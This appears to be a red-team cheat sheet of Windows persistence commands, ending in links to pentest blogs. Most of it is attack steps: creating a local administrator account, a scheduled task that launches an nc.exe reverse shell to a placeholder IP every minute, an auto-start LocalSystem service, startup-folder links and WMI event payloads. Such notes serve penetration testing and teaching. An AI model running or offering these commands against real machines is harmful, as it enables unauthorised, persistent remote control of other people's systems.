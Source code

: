 ## Create User:  
**Create user (CMD)**: net user username password /add  
**Add user to group (CMD)**: net localgroup Administrators username /add  
**Add user to group (Powershell)**: Add-LocalGroupMember -Group Administrators -Member username  

## Scheduled Tasks:  
**Local scheduled tast**: schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr 'c:\Users\User\Downloads/nc.exe <IP> <PORT> -e cmd.exe'  
**Create remote scheduled task**: schtasks /create /s "PC-NAME" /tn "My App" /tr "PATH" /sc minute /mo 1 /u Domain\User /p password  
**Logon Scripts**: schtasks /create /sc onlogon /tn "task-name" /tr "File or App PATH" /RU  "username"  

## Create Service:
sc create (service name) binpath= "cmd.exe /k C:\temp\pentestlab.exe" start="auto" obj="LocalSystem"  
sc start (service name)  

## Startup Folder:
**Add files/executables/links to user startup folder**: C:\Users\username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\rev.lnk  

## Abandoned processes:  
**Try to find processes with procmon.exe what statos is NOT_FOUND**.  

## WMI Event:  
**Execute uor payload when executing another program or event happen. Can be done with PowerLurk**.
  
## Aditional Informaion:  
**Windows Tasks**:  
1. https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/  
2. https://dmfrsecurity.com/2021/09/07/scheduled-task-persistence/  
  
**Windows Registry**:  
1. https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/  
  
**Services**:
1. https://pentestlab.blog/2019/10/07/persistence-new-service/  
2. https://dmcxblue.gitbook.io/red-team-notes/persistence/new-service  

**Sturtup Folder**:  
1. https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder  
2. https://stmxcsr.com/persistence/looking-at-the-startup-directory.html  

**WMI Event**:  
1. https://github.com/Sw4mpf0x/PowerLurk  
